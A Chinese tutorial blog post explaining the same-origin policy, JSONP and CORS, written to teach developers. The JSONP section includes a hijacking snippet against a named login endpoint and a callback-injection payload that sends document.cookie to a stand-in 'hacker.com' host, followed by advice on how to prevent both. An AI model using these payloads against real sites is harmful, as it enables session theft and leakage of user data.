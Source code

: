 ```yaml
---
layout: post
tags: ["web", "跨域"]
title: 一篇聊透跨域
---
```


前几天面试一小哥哥，说到跨域问题，说的语焉不详的。所以将相关知识点整理了一下，成文如下：

## 什么是跨域问题

通常大家所说的跨域问题，就是脚本要访问一个别的域名的数据时，发现被浏览器阻止了，访问不了，然后想各种办法去实现这个跨域名的数据读取，就被笼统的称作**跨域问题**；但其实，跨域问题不是**跨域**，而是**跨源（cross-origin）**问题。现代浏览器里有一个叫做**同源策略**的机制，正是这个机制阻止了资源的跨域访问。那么什么是同源策略，以及为什么要有这个策略呢？

## 同源策略（Same Origin Policy）

简单的说，同源策略是浏览器的一种**安全机制**。他规定**从某一个源（服务端）加载（到浏览器端）的页面（脚本）只能*访问（向xxx发请求）*与他“*同源*”的页面的*资源***。那“同源”里的**源**又是什么意思呢？**同源是指两个URL里的：协议（protocol），端口（port），域名（hosts）完全相同**，也就是URL的Scheme一致。例如：

```html
http://abc.com  和 https://abc.com 不同源，协议不同
http://abc.com 和 http://abc.com:8080 不同源，端口不同
http://a.abc.com 和 http://b.abc.com 也不同源，域名不同
```

也就是说，上面这些页面之间都不能发送请求。你可能会感到奇怪，“我的网页的静态资源都放在cdn域名里，比如公共js，然后加载到页面执行，一点问题都没有啊”，这是不是违法了同源策略？嗯，所以同源策略里规定的“**访问**”是一个相对模糊的概念。一般来说：**内嵌一个跨源的资源是被允许的，但是读取一个跨源的资源是不允许的。**比如，你可以用`<iframe src=''/>`嵌入一个跨源的页面（当然，被嵌入的页面的服务器端可以设置`X-Frame-Options`响应头来控制自己允不允许被iframe嵌入，可以在一定程度上防止黑客制作钓鱼网站），但不能用js获得这个被嵌入的页面里的dom对象引用。 

更具体的来说，下面列出来哪些动作被允许，哪些动作不被允许。

	1、**iframe**，  一般来说，用src跨源嵌入是可以的，但不让读取里面的内容
	
	2、**css**，可以用link标签和@import来嵌入，但是要正确的设置Content-Type
	
	3、**表单**，表单可以通过action属性提交到一个跨源的目的地页面，也就是说，跨源写是允许的
	
	4、**图片**，图片可以用img标签嵌入，但是如果从一个跨源的地方读一张图片然后画到canvas上，则不允许（这相当于读了图片的内容）
	
	5、**多媒体内容**，同理，视频和音频这些内容是可以通过video和audio标签内嵌到页面上来的。
	
	6、**脚本**，脚本当然可以用script标签嵌入，但不能访问一些特定的api，比如通过XMLHttpRequest或Fetch发送跨域资源请求。

## 为什么要有同源策略？

总而言之，是搞了很多的限制。那为什么要搞这么多的限制呢，怪麻烦的。刚提到，同源策略是一个重要的安全策略。也就是说，是浏览器为了web安全而不得不搞出来的一种限制。想象一下，如果没有这个限制。一个源attacker.com的脚本可以读取xxx.bank.com页面的信息和往xxx.bank.com发请求的话。attacher就可以用脚本读取你在bank.com里的账号和密码，发起转账，等等都可以了。所以，同源策略，保护的是被跨源访问的域。这点是很多人没有彻底理解跨域问题的根源。

## 但实际就有跨源资源访问的需求怎么办？

同源策略安全是安全，但他是一刀切的方案，实际情况是真的有很多时候需要跨源访问资源：现代网站很多用域名做了垂直拆分，甚至很多本来就是公共服务，就希望被所有人访问到，比如天气预报数据等等，都被这个同源策略所阻止了。在之前，比较著名和流行的方式就是采用**JSONP**技术来实现跨源访问。

## JSONP（JSON with padding）技术

这是一种被普遍使用的，绕过浏览器同源策略的数据共享方法。他的基本思想是，在网页里插入一个`<script />`元素，用script标签的src属性加载一个跨源脚本（这是被允许的），这个脚本的服务端，将要共享的数据以JSON的格式放到一个指定名字的回调函数的入参里（with padding）传回来。页面的回调函数实现就拿到跨源的共享数据了。

```javascript
/**
* 工具函数，往页面里插入一个指定src的script标签，以发起请求
* 其实也可以发起ajax请，很多三方库（比如jQuery）都有封装
*/
function addScriptTag(src) {
  var script = document.createElement('script');
  script.setAttribute("type","text/javascript");
  script.src = src;
  document.body.appendChild(script);
}

window.onload = function () {
  // 调用工具函数，发起请求，并告诉服务端，回调函数名字叫foo
  addScriptTag('http://example.com/ip?callback=foo');
  // 服务端返回JSON格式的数据，并 放在一个叫 foo的函数调用的入参里，如下：
  // foo({"ip": "8.8.8.8"});
}

/**
* 回调函数，服务端返回的内容，会回调这个函数，并且把数据作为参数传入，这样就实现了跨源数据共享的目的
*/
function foo(data) {
  console.log('Your public IP address is: ' + data.ip);
};
```

从原理上来看，JSONP其实是一种Hacking技术，用一种巧妙的方式绕开了同源策略的限制，虽然能实现跨源访问的目的，但其实也会带来一些安全问题。

**1、CSRF（ Cross-site request forgery 跨站请求伪造）攻击**

如果通过JSONP获取的数据是敏感数据（比如用户登录之后才能读取到的数据），攻击者可以构造一个这样的请求，藏在某个页面里，如果用户在登录的情况下访问了那个页面（攻击者可以引诱被攻击者访问），就会在不知情的情况下将自己的数据泄露。比如

```html
<script>
function wooyun(v){
    alert(v.username);
  	// 这里可以干坏事，比如将用户的用户名，邮箱等发送到指定的地址， 
    // 把这坨代码放注入到360的某个子域的页面里，就等着有人上钩了
}
</script>
<script src="http://js.login.360.cn/?o=sso&m=info&func=wooyun"></script>
```

也就是说，攻击者在被攻击者不知情的情况下向某个JSONP的服务端发送了请求（如果这个请求是转账？^_^）。所以要防止这种攻击，服务端除了要验证用户的登录状态，还要验证请求的Refer，增加token校验等等。

**2、callback函数名可自定义，导致注入风险**

因为，callback参数值会作为函数名传个服务器并传回来，在浏览器端执行，如果这个参数不是一个正常的函数名，而是一个表达式，甚至是一段脚本呢？就会有问题了。比如

```javascript
script.src='/pay?callback=<srcript>$.get("http://hacker.com?cookie="+document.cookie)</script>' 
```

攻击者还可以构造一些更加精巧的callback内容，实现RFD攻击。

要防止这种攻击，第一步要做的就是对callback参数的内容做转义，第二是要对返回的内容设置`conten-type=application/json` （不能被执行）而不是`application/javascript`。

想要更安全优雅的实现跨源资源共享该怎么办呢？其实早在2014年的时候w3c就通过了**跨源资源共享（Cross-Origin Resource Sharing (CORS)）** 的标准。

## CORS（Cross-Origin Resource Sharing）跨源资源共享 技术

上文说到，**浏览器是为了保护被跨源访问的服务不被别人随意访问才不得不设置了同源策略，并且这种一刀切的方式带来了许多不便。那如果某个源的服务器明确告诉浏览器说，我这个服务是允许别人来访问的，你不用使用同源策略来禁止别人访问我，那不就没问题了**。这就是cors机制的基本原理。	

最基本的实现CORS和把大象装冰箱一样，总共分三步：

1、浏览器发现是一个跨源请求，就在请求头上加一个字段`Origin`；包括协议，域名，端口。告诉被请求的服务端说，我是谁。

2、服务器收到请求，应该检查这个Origin是不是被允许的访问来源，如果是被允许的，则在响应头上加上`Access-Control-Allow-Origin`，这个值可以是一个具体的origin，也可是是`*`表示允许所有源访问。

3、浏览器收到服务器的响应，检查是否有`Access-Control-Allow-Origin`头，如果有，才能把具体的响应体返回给请求发送者，否则报错，告诉请求发起方`access blocked by CORS policy`

其实，我们发现，CORS虽然阻止了将响应返回个请求发送者，但实际上请求是有真的发送到服务端的！所以当我们在做服务端接口的时候，一定要注意先要检查请求的Origin，再决定是否做相应的动作。以免形成事实上的攻击。这个在nginx配置上一定要注意，不能无脑的反射Origin。

**复杂请求的先导请求**

我觉得也是出于这个原因，CORS把请求分成普通请求和复杂请求（complex request），对于复杂请求（万一请求对服务端有伤害的请求？）先用一个先导请求（preflight request）去问下服务端是否接受这类请求，得到确认后再发送具体请求。先导请求是浏览器自动发送的，并且服务端可以设置缓存建议。

**用cors发送cookie？**

 除了Allow Origin这种源的白名单机制，cors还可以通过cookie实现对用户的身份认证，在请求头上加上 `credentials: 'include'` 可以让请求带上cookie发送， 为了安全考虑，cors规定如果用了，则`Access-Control-Allow-Origin`必须指定具体的值，不能为`*`


